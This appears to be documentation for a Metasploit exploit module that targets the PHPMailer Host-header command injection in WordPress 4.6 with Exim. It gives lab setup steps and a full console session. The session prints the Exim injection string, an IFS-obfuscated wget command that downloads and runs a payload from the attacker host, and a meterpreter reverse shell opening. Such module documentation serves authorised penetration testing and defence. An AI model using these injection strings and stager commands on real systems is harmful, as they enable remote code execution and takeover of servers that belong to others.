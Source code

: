 ## Introduction

This vuln has some caveats: you need approximately WordPress 4.6 with
Exim for the `sendmail(8)` command. You do not need to install
PHPMailer, as it is included as part of the WordPress install.

Thanks to WP's awesome practice of backporting the heck out of all their
patches, we need to use a Git clone and check out the vuln release.

## Setup

This was tested on Ubuntu 15.04. YMMV.

1. got root?
2. `cd /var/www/html`
3. `git clone https://github.com/WordPress/WordPress wordpress-4.6`
4. `chown -R www-data:www-data wordpress-4.6`
5. `cd wordpress-4.6`
6. `git checkout 4.6`
7. Set up a MySQL database for WordPress
8. Install as normal

## Options

### VERBOSE

If you'd like to see what requests are being sent, set this to `true`.
You should see the Exim prestager commands being sent to the target.

## Usage

```
msf > use exploit/unix/webapp/wp_phpmailer_host_header 
msf exploit(wp_phpmailer_host_header) > set rhost 192.168.33.135
rhost => 192.168.33.135
msf exploit(wp_phpmailer_host_header) > set targeturi /wordpress-4.6
targeturi => /wordpress-4.6
msf exploit(wp_phpmailer_host_header) > set lhost 192.168.33.1 
lhost => 192.168.33.1
msf exploit(wp_phpmailer_host_header) > set verbose true
verbose => true
msf exploit(wp_phpmailer_host_header) > run

[*] Started HTTPS reverse handler on https://192.168.33.1:8443
[*] WordPress 4.6 installed at http://192.168.33.135/wordpress-4.6
[*] Generating wget command stager
[*] Using URL: http://0.0.0.0:8080/mbpvuuck
[*] Local IP: http://[redacted]:8080/mbpvuuck
[*] Generating and sending Exim prestager
[*] Sending /bin/sh -c ${run{/bin/echo}{${extract{-1}{$value}{${readsocket{inet:192.168.33.1:8080}{get /mbpvuuck http/1.0$value$value}}}}}}
[+] Sending wget${IFS}-qO${IFS}/tmp/vfotastd${IFS}http://192.168.33.1:8080/mbpvuuck;chmod${IFS}+x${IFS}/tmp/vfotastd;/tmp/vfotastd;rm${IFS}-f${IFS}/tmp/vfotastd
[+] Sending payload linux/x64/meterpreter_reverse_https
[*] https://192.168.33.1:8443 handling request from 192.168.33.135; (UUID: xyx88vod) Redirecting stageless connection from /nBwfbdUYNjU2TjBMb1VkagG08CfJO-jZYpOxBsWHQMGHh7p5ISjCG3Ze with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] https://192.168.33.1:8443 handling request from 192.168.33.135; (UUID: xyx88vod) Attaching orphaned/stageless session...
[*] Meterpreter session 1 opened (192.168.33.1:8443 -> 192.168.33.135:36075) at 2017-05-16 14:25:28 -0500
[*] Sending /bin/rm -f /tmp/vfotastd
[*] Server stopped.

meterpreter >  
```
